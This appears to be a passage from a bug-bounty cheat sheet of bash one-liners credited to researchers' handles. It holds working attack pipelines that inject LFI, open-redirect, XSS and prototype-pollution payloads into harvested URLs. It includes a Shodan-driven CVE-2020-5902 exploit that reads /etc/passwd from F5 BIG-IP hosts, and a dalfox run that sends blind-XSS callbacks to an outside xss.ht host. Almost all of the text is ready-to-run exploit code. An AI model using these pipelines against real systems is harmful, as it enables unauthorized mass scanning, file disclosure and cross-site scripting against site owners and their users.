 ```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0

```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

> @N3T_hunt3r
```bash
cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

### XSS
> @cihanmehmet

```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```

> @fanimalikhack

```bash
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt
```

> @oliverrickfors

```bash
cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
```

### Prototype Pollution
> @R0X4R

```bash
subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

### CVE-2020-5902
> @Madrobot_

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```
